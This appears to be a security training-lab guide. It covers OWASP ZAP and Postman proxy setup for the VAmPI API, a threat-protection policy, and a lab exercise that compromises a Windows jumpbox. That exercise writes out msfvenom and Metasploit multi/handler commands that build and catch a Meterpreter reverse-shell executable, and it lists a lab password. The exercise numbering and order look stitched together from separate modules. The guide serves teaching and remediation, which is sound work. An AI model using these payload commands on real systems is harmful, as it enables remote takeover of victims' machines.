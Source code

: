 # Module 3


### Exercise 3.1 - OWASP ZAP and Postman Proxy Config

1. Click on **Activities** button in the top lefthand corner

2. Type **zap** in the search bar and click on the ![Zap-Icon](media/zap-launch-icon.jpg) to launch OWASP ZAP (herein referred to as ZAP)

3. Upon launch ZAP will ask if you want to persist your session, while a useful option, it isn't needed for this lab, so select **No, I don't want to persist this session at this moment in time** and click the **Start** button

4. Click on **Tools** menu on the ZAP main screen ![Tools-Menu](media/zap-main-screen-tools-menu.jpg)

5. In the **Tools** menu select **Options**
![Options](media/zap-tools-menu-options.jpg)

6. Type **network** in the search bar and hit the **Enter** key on your keyboard. Select **Network** --> **Local Servers/Proxies**. Here you could change the setting or add additional proxys. Just remember localhost for the proxy host and 8080 for the port.
![Proxy](media/zap-proxy-menu.jpg)

7. Click on **Activities** button in the top lefthand corner again and type **postman** into the search bar. Click on the Postman icon. [Postman-Icon](media/postman-icon.jpg)

8. In Postman select **File**->**Settings**->**Proxy**
![Postman-Settings](media/postman-settings-proxy.jpg)

9. Enable **Use custom proxy configuration** and match the settings seen below
![Postman-Proxy-Config](media/postman-proxy-config.jpg)

### Exercise 3.2 Running through Postman Collection

1. The VAmPI Postman Collection is already imported as is the VAmPI Environment 

2. Ensure you are using the VAmPI Environment by clicking the environment select near the top right of the window and selecting the VAmPI environment
![VAmPI-Environ](media/postman-environ-select.jpg)

3. Next select **Collections** on the left and expand the VAmPI collection
![VAmPI-Collection](media/postman-collections-vampi.jpg)

4. Run through all the steps in the collection
5. For **Security Template**, click the **Strict** option.

!!! note
    Choosing the **Strict** template allows for strict policy actions to block threats from your network including:
    - All known threat categories are assigned the block policy action
    - For known and suspected DNS exfiltration threats, a refused response is configured
    - A monitor action is assigned to the suspected malware and phishing threat
    - Alerts are enabled

6. Click **Continue**

![Policy Selection](media/policy-selection.png)

7. Click **Threat** and under the **Alert** table, make sure **Malware** and **Phising** are enabled for **Threat Type** and **Suspected Type**

8. Click **Save & Deploy**

![Policy Deploy](media/policydeploy.png)

9. Click **Deploy** again

### Exercise 1.3 - Attacking the Endpoint & Remediation

#### The Attack 
Our goal is to compromise the Win10 Jumpbox workstation to gain access to the machine through a Kali Linux terminal. We will be using Metasploit to gain access to the Windows machine. Metasploit is a popular penetration testing framework used to conduct active exploitation against a remote host. 

#### **Initial Access - Exploitation with Metasploit** 

<!-- **Overview** Let's start by gaining initial access to the Windows client from our attacker machine, Kali Linux. We will be setting up a reverse shell environment using the /reverse_tcp payload module with meterpreter. Meterpreter is an advanced, extensible payload that uses in-memory DDL injection stagers. It communicates over the stager socket and provides a comprehensive client-side API with features such as tab completion and commmand history. Meterpreter allows a user to gain access to a shell (or Windows CMD) and perform actions inside the computer. To compromise the host, we will simulate a "malicious" executable with our local web server setup. This will allow us to transfer our payload over to the victim machine -->

1. At the bottom taskbar, right click the Kali Linux icon and run as Admin. Do the same for the Command Prompt icon
!!! note
    When opening the Command Prompt Session, type in **bash** and make sure the directory it is currently in is **/mnt/c/Users/labuser**

2. In the Kali Linux window, type in **msfconsole**
!!! note   
    This will take a while to load

3. In the Command Prompt window, type in **ifconfig eth0** to obtain the IP Address of the Jumpbox. We will need it to launch the attack

4. In the Command Prompt window, type in **sudo msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows -f exe LHOST=192.168.2.2 LPORT=4444 -o /mnt/c/Users/labuser/something32.exe**. This will create an infected .exe file that willl serve as a payload for the Windows 10 machine.

![Bash](media/bash_setup.png)

!!! note
    This will also take a while to load. If prompted for password, input **WWTwwt1!**

5. Click the **Kali Linux** icon on the Windows startbar and type **msfconsole** to launch the Metasploit Console. Once Metasploit is launched on the Kali Linux window, type the following:

**use multi/handler** *This is the general payload handler

**set payload windows/meterpreter/reverse_tcp** *This will configure the payload to match what's inside the infected executable

**set LHOST 192.168.2.2**  *This sets the IP as the listening host

**set LPORT 4444** *This sets the listening port

**exploit** *runs the exploit

![Metasploit](media/metasploit.png)

6. Go locate the executable file **something32** (C:\Users\labuser), double click the executable and monitor the Kali Linux window. As you can see, the file causes the payload to run and creates a connection to the attack machine. We then get a Meterpreter session on Kali Linux.

![Payload](media/something32.png)

![Exploit Assign](media/exploit.png)
    
!!! note
    For the sake of brevity, this lab not explore into Meterpreter, but there are various commands availiable that can be used to gather more information from the vulnerable machine
    

#### Remediation

7. Go back into the Akamai Enterprise Center. On the left hand side, click **Threat Protection->Reports->Threat Events** and from this view, you should be able to see Threat tables for **Category, Reason, Severity, Location, and Policy**